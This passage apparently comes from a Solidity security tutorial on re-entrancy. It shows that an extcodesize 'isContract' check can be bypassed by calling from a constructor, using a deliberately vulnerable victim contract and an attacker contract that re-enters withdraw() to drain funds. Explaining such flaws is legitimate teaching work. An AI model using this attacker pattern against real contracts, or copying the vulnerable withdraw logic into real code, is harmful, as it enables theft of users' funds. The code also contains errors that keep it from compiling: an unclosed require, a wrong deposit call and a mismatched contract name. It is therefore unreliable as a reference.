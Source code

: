 One might consider defeating re-entrancy by simply preventing any smart contracts from interacting with your code. You search stackoverflow, you find this snippet of code with tons of upvotes:

```solidity
function isContract(address addr) internal returns (bool) {
  uint size;
  assembly { size := extcodesize(addr) }
  return size > 0;
}
```

Seems to make sense: contracts have code, if the caller has any code, don't allow it to deposit. Let's add it:

```solidity
// THIS CONTRACT HAS INTENTIONAL VULNERABILITY, DO NOT COPY
contract ContractCheckVictim {
    mapping (address => uint256) public balances;

    function isContract(address addr) internal returns (bool) {
        uint size;
        assembly { size := extcodesize(addr) }
        return size > 0;
    }

    function deposit() external payable {
        require(!isContract(msg.sender); // <- NEW LINE
        balances[msg.sender] += msg.value;
    }

    function withdraw() external {
        uint256 amount = balances[msg.sender];
        (bool success, ) = msg.sender.call.value(amount)("");
        require(success);
        balances[msg.sender] = 0;
    }
}
```

Now in order to deposit ETH, you must not have smart contract code at your address. However, this is easily defeated with the following Attacker contract:

```solidity
contract ContractCheckAttacker {
    constructor() public payable {
        ContractCheckVictim(VICTIM_ADDRESS).deposit(1 ether); // <- New line
    }

    function beginAttack() external payable {
        ContractCheckVictim(VICTIM_ADDRESS).withdraw();
    }

    function() external payable {
	    if (gasleft() > 40000) {
		    Victim(VICTIM_ADDRESS).withdraw();
	    }
   }
}
```
